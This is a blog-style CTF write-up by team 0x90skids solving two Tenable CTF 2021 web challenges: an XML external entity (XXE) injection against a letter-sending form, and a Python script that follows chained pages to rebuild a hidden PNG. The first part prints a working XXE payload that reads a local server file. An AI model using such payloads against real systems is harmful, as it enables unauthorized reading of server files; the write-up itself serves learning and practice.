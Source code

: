 ```yaml
---
layout: post
title: Tenable CTF Writeup
date: 2021-02-22 01:00 +0700
modified: 2021-02-22 16:49:47 +07:00
description:  0x90skids writeups for the 2021 Tenable CTF Competition
tag:
  - ctf
  - writeup
image: https://0x90skids.com/TenableCTF_logo.png
author: 0x90skids
summmary: 0x90skids writeups for the 2021 Tenable CTF Competition
comments: true
---
```

<img class="img-fluid rounded z-depth-1" style="width:100px;height:100px;" src="TenableCTF_logo.png">
>  TenableCTF CTF 1st edition was an event hosted online. 0x90skids recently competed in the competition.

# Categories 

+  [Web](#web)

## Web
### Send A Letter
**Solved By:** Bib<br>
**Points:** 50<br>
**Flag:** flag{xxe_aww_yeah}

##### Challenge
There is a web app at [http://challenges.ctfd.io:30471/](http://challenges.ctfd.io:30471/). Find the vulnerability, exploit it, and recover the flag.

##### Solution

First look at the page here :

<img src="images/tenable-ctf/sendletter_page.png" alt="chall page">

Seems like it's a simple email send form. By checking the page source code, I found the following javascript :
```javascript
	var create_letter = function(from, return_addr, name, addr, message) {
		var letter = "<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?>";
		letter += "<letter>";
		letter += "<from>" + from + "</from>";
		letter += "<return_addr>" + return_addr + "</return_addr>";
		letter += "<name>" + name + "</name>";
		letter += "<addr>" + addr + "</addr>";
		letter += "<message>" + message + "</message>";
		letter += "</letter>";
		
		return letter;
	}
	
	var send = function() {
		var your_name = $('#your_name').val();
		var return_addr = $('#return_addr').val();
		var recipient_name = $('#recipient_name').val();
		var recipient_addr = $('#recipient_address').val();
		var message = $('#message').val();
		
		var letter = create_letter(your_name, return_addr, recipient_name, recipient_addr, message);
		
		$.get("send_letter.php?letter="+letter, function(data, status){
			alert("Data: " + data + "\nStatus: " + status);
		});
	}
```
So, `create_letter` generates an XML string that gets sent as a GET request to `send_letter.php` with param `letter`. It then returns data and status in a popup.
When first seeing an XML file being rendered in the back-end, I automatically think of an XXE ([XML External Entity](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)) attack.
<br>
In order for us to exploit this, we need the back-end server to return data in some way. So I started to check which fields of the form I could use to extract data.
The alert popup gave us valuable information :


<img src="images\tenable-ctf\sendletter_alert.png" alt="chall alert">

This tells us that the `name` field gets reflected back in the alert and that the file we (probably) need to read is `/tmp/messages_outbound.txt`. Great!<br>
I started crafting my payload and tested it using Burp. The following payload worked :

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///tmp/messages_outbound.txt"> ]><letter><from>0x90skids</from><return_addr>return_addr</return_addr><name>&xxe;</name><addr>addr</addr><message>message</message></letter>
```

The alert returns : `Message to flag{xxe_aww_yeah} appended to /tmp/messages_outbound.txt for pickup. Mailbox flag raised.`<br>

Challenge solved!

`flag{xxe_aww_yeah}`

## Web
### Follow the Rabbit Hole
**Solved By:** Bib<br>
**Points:** 100<br>
**Flag:** flag{automation_is_handy}

##### Challenge
Follow the rabbit hole and get the flag.
[http://167.71.246.232/](http://167.71.246.232/)
Alternate URL: [http://167.71.246.232:8080/rabbit_hole.php](http://167.71.246.232:8080/rabbit_hole.php)

##### Solution

First up, I visited the URL mentionned in the challenge description. It returned this : `[513, '71'] 4O48APmBiNJhZBfTWMzD`<br>
Also, an interesting change to the URL : `http://167.71.246.232:8080/rabbit_hole.php?page=cE4g5bWZtYCuovEgYSO1`<br>
Since the challenge is called "Follow the Rabbit Hole", I've tried "following" the page using the code provided so I used the link : `?page=4O48APmBiNJhZBfTWMzD`<br>
This brings us to another page with the same set of data (an array with a number & what appears to be HEX). So let's automate this process because I don't know how far the rabbit hole goes...<br>
I've played around with different versions of a script to fetch the data but I finally used :
```python
import requests
import csv

url = "http://167.71.246.232:8080/rabbit_hole.php?page="
page = "cE4g5bWZtYCuovEgYSO1"

response = requests.request("GET", f"{url}{page}")
with open('C:\\Users\\Bib\\Downloads\\rabbit_hole.csv', 'w', newline='') as csvfile:
    rabbit_csv = csv.writer(csvfile, delimiter=';', quotechar='|', quoting=csv.QUOTE_MINIMAL)
    while response.text != 'end':
        try:
            print(f"Following the rabbit hole... Page : {page}")
            response = requests.request("GET", f"{url}{page}")
            page_split = response.text.split()
            first_number = page_split[0].replace("[","").replace(",","")
            second_number = page_split[1].split("\'")[1]
            array = [first_number, second_number]
            rabbit_csv.writerow(array)
            page = page_split[2]
        except:
            print("Script end.")
```
So basically, I went all the way down the rabbit hole and fetched all data inside a CSV file. Then, I sorted the data using the first number as an index.
<table>
  <tr>
    <td>
        <figure>
            <img src="images/tenable-ctf/rabbit_hole_csv_1.png" alt="raw csv">
            <figcaption>Fig 1. Sample of raw CSV file</figcaption>
        </figure>
    </td>
    <td>
        <figure>
            <img src="images/tenable-ctf/rabbit_hole_csv_2.png" alt="sorted csv">
            <figcaption>Fig 2. Sample of sorted CSV file</figcaption>
        </figure>
    </td>
  </tr>

</table>



After the data was sorted, I made a huge string with the HEX values and passed that to an HEX to ASCII converter. It gave me garbage data but I was able to see the header `PNG`.<br>
Knowing this, I re-ran the converter to a PNG file :<br>
<br>
<img src="images\tenable-ctf\rabbit_hole_flag.png" alt="flag">

Bingo! Challenge solved! Pretty interesting challenge :)

`flag{automation_is_handy}`